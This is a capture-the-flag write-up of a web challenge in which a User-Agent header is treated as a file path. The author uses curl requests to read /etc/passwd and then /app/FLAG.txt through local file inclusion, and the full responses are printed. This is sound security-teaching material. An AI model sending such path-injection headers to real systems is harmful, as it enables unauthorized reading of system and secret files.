

# i love browsers
```
I just love browsers! That's why I launched a discussion board about them. To avoid flame wars it's segregated though.

52.59.124.14:10009 
```

Visiting the website greets you with `Hello [your browser]!` message:


The only way the website would really know what browser we use is either through JavaScript (which the site doesn't have any) or through the User-Agent header the browser sends. Trying different values like `User-Agent: safari` also works, and if you play around with the possible values you'll notice that it only cares about the last word and ignores everything to the right of / (used to provide the browser version) if the last word contains that. Though if the user-agent has more than a single dot, it'll return an error:
```
└─$ curl -H "User-Agent: .." http://52.59.124.14:10009
<a href="https://xkcd.com/838/">This incident will be reported</a>  
```

And as two dots usually indicate going up in a directory, we can try an absolute path instead revealing that we're able to do LFI. Trying this with `/etc/passwd` will reveal us a hint of the flag's location:
```
└─$ curl -H "User-Agent: /etc/passwd" http://52.59.124.14:10009
<!DOCTYPE html>

<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hello /etc/passwd user</title>
</head>
<body bgcolor="lightblue">
    <div align="center">
    <h1>Hello /etc/passwd user</h1>
    root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
#flag is in /app/FLAG.txt

    </div>
    <div style="height: 100px;">
        
    </div>
    <div align="center">
        <table id="data" class="table table-striped">
            <thead>
                <tr>
                    <th>Author</th>
                    <th>Comment</th>
                </tr>
            </thead>
            <tbody>
                
                <tr>
                    <td>testron</td>
                    <td>tata</td>
                </tr>
                
            </tbody>
        </table>
        <form action="/test" method="post">
            <table>
                <tr>
                    <td>Name:</td>
                    <td><input type="text" name="user"></td>
                </tr>
                <tr>
                    <td>Comment:</td>
                    <td><textarea style="height:100px;" type="text" name="comment"></textarea></td>
                </tr>
            </table>
            <input type="submit">
        </form>
    </div>
</body>
</html>

└─$ curl -H "User-Agent: /app/FLAG.txt" http://52.59.124.14:10009
<!DOCTYPE html>

<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hello /app/FLAG.txt user</title>
</head>
<body bgcolor="lightblue">
    <div align="center">
    <h1>Hello /app/FLAG.txt user</h1>
    ENO{Why,os.path,why?}

    </div>
    <div style="height: 100px;">
        
    </div>
    <div align="center">
        <table id="data" class="table table-striped">
            <thead>
                <tr>
                    <th>Author</th>
                    <th>Comment</th>
                </tr>
            </thead>
            <tbody>
                
                <tr>
                    <td>testron</td>
                    <td>tata</td>
                </tr>
                
            </tbody>
        </table>
        <form action="/test" method="post">
            <table>
                <tr>
                    <td>Name:</td>
                    <td><input type="text" name="user"></td>
                </tr>
                <tr>
                    <td>Comment:</td>
                    <td><textarea style="height:100px;" type="text" name="comment"></textarea></td>
                </tr>
            </table>
            <input type="submit">
        </form>
    </div>
</body>
</html> 
```

Flag: `ENO{Why,os.path,why?}`